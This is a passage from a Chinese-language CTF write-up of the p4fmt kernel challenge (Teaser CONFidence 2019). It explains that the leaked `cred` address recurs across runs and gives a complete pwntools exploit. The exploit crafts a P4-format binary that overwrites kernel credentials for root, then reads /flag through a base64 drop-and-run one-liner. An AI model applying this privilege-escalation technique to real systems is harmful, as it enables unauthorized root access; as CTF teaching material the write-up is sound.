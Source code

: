 找了一找發現在第六個 `vm_mmap` 的 `0xffffa1c307595b40` 這個位址是 `cred`  
但是這個位址每次跑起來都不一樣，不過多跑幾次會發現，這個值會一直循環重複利用，所以只要多跑幾次就會對了

## Final Exploit

```python
#!/usr/bin/env python3
from pwn import *
from base64 import b64encode

context.arch = "amd64"

payload  = b"P4"             # magic
payload += p8(0)             # version
payload += p8(1)             # type
payload += p32(2)            # mapping_count
payload += p64(0x18)         # mapping_offset
payload += p64(0x400048)     # entry

leak_cred = 0xffff9855c758c0c0

# mapping
payload += flat(
    0x400000 | 7,
    0x1000,
    0,

    (leak_cred | 8) + 0x10,
    0x20,
    0
)

payload += asm(shellcraft.cat("/flag") + shellcraft.exit())

print(f'echo {b64encode(payload).decode()} | base64 -d > a ; chmod +x a ; ./a')
```

---

1. https://github.com/david942j/ctf-writeups/tree/master/teaser-confidence-quals-2019/p4fmt
2. https://devcraft.io/2019/03/19/p4fmt-confidence-ctf-2019-teaser.html
3. https://amritabi0s.wordpress.com/2019/03/19/confidence-ctf-p4fmt-write-up/
